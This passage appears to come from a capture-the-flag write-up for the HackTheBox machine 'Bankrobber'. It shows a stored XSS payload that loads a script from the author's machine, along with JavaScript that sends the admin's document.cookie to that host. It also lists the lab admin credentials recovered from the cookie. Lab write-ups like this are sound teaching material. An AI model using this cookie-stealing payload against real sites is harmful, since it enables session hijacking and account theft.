## Exploiting the XSS

My XSS payload in the comments field is very simple: `<script src="http://10.10.14.19/xss.js"></script>`

This'll make the admin browser download a javascript file from my machine and execute its code.

The `xss.js` will steal the session cookies from the admin and send them to my webserver.

```javascript
function pwn() {
    var img = document.createElement("img");
    img.src = "http://10.10.14.19/xss?=" + document.cookie;
    document.body.appendChild(img);
}
pwn();
```

After a few minutes I get two connections. The first downloads the javascript payload and the second one is the connection from the script with the admin cookies.

![](/assets/images/htb-writeup-bankrobber/xss1.png)

The cookies contains the admin's username and password Base64 encoded:

- Username: `admin`
- Password: `Hopelessromantic`

## Exploiting the SQLi

Once logged in as administrator, I see that there's a list of transactions, a search function for users and a backdoorchecker.
